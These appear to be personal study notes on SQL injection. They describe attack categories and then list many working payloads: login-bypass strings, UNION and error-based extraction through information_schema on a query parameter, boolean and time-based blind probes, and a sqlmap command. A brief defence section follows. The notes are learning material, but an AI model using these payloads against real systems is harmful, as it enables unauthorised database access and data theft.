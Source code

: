 https://www.base64decode.org


SQL INjection ==> web security vulnerability that allows an attacker to interfere with the queries that an application makes to its db.
                = Able to access all the data that the application itself to access 
                = causes persistent chanegs to the applications content
                = Able to perform Dos or DDos Attacks

        --  ==> comment indicator in SQL
        + , or ASCII values 1=1 ; waitfor delay ('0:0:20') payload 


            ? Retrieving Hidden Data [ Access ]
            ? Subverting Application Logic  [ Validation ]
            ? Retrieving data from other db tables
            ? Examining the database
            ? Blind SQL injection Vulnerabilities
        
    First Order SQL Injection <== raises where the application takes user input from an HTTP request and incorporates the input into
                                  an SQL query in an unsafe way


    Second Order SQL Injection ==> Stored SQL Injection
                                 = fetch request from http and stores it for future use


            ? Syntax for String Concatenation
            ? Comments
            ? Batched / Stacked queries
            ? Platform-specific APIs
            ? Error Messages
            ? parametrized queries


        select * from login where username = '' and password = 'x' or 1 = 1;
        select * from login where username = '' -- 
        
        select user();
        select version();
        select database();
        select * from login where username = "sagar" or "1"="1" and password="bansal" or "1"="1";
        select * from login where username = "anything" or "1"="1" and password="anything" or "1"="1";
        select * from login where username = "sagar" or 1=1;#" and password ="anything";
        select * from login where username = "sagar" or 1=1;-- -" and password ="anything";
        select * from login where username = "sagar" or 1=1;/*" and password ="anything";  || needs to comment multi-line externally

                ' or 1=1;#  || use single & double quotes



                % In-band SQL Injections      <== able to get response from a website [ data | error ]
                        ! union-based Injection
                        ! error-based Injection

                % Inferential SQL Injections <== Not getting either error or data, just analyzing the behaviour of the application
                        ! Boolean-based Injection
                        ! Time-based Injection

                % Out of Band SQL Injections  


        select * from login union select database(),user(),version();
        select * from login order by 'number';

        select schema_name from information_schema.schemata;
        select table_name from information_schema.tables where table_schema = 'name';

                ?cat=2 union select 1,user(), 3,4,5,6,database(),8,version(),10,11
                ?cat=2 order by 'number'
                ?cat=2 union select 1,user(), 3,4,5,6,database(),8,schema_name,10,11 from information_schema.schemata#
                ?cat=2 union select 1,user(), 3,4,5,6,database(),8,table_name,10,11 from information_schema.tables where table_schema='name'#
                ?cat=2 union select 1,user(), 3,4,5,6,database(),8,group_concat(table_name),10,11 from information_schema.tables where table_schema='name'#

        select name, rand() from users;
        select name, rand(0) from users;
        select name, rand(0),round(rand(0)) from users;
        select name from users group by round(rand(0));
        select name from users group by round(rand(0)) having min(0);
        select name from users where name = 'sagar' or 1=1 group by round(rand(0)) having min(0);
        select name,concat(version()," ", user(), " ", database(), " ", round(rand(0))) from users;
 
                ?cat=2 or 1=1 group by round(rand(0)) having min(0)#
                ?cat=2 or 1=1 group by concat(version()," ", user(), " ", database(), " ", round(rand(0))) having min(0)#


        select * from login where id=1 and database()="sbva";
        select * from login where id=2 or database()="sbva"; 
        select * from login where id=2 or length(database())="1";
        select * from login where id=2 or substring(database(),1,1)="a";  || variable,character_index, number_of_characters
        select * from login where id=2 or database() like "%bv%";

                ?cat=2 and length(database())='number'#


        select * from login where name ="sagar" and if(database()="a",sleep(2),sleep(5))
        select * from login where name ="sagar" and if(length(database())="1",sleep(2),sleep(5)) || use >, <, >=, <=


                ! Semi Automated Tools 
                        @ Burp Suite   || portswigger.net

                !Fully Automated Tools
                        @sqlmap

                                sqlmap.py -hh
                                python sqlmap.py -u http://localhost/login.php --risk=3 --level=5
                                 

                ! Defending Against SQL injections 

                       @ Multi Layer Defence - 
                                ? Layer 1 - Secure Code
                                        % Input Validation
                                        % Parametrized Queries
                                        % Stored Procedures
                                        % Escaping
                                
                                ? Layer 2 - Host Based Web Application Firewall [ WAF ] || wordpress-cms

                                ? Layer 3 - Edge Sided Web Application Firewall [ WAF ] || cloud-services [ cloudflare ]

                                ? Other Layers -
                                        % Intrusion Detection System
                                        % Intrusion Prevention System
                                        % Application Delivery Controller
                                        % Security Orchestration Automation Response System
                                        % Manage Monitor Automation Response System


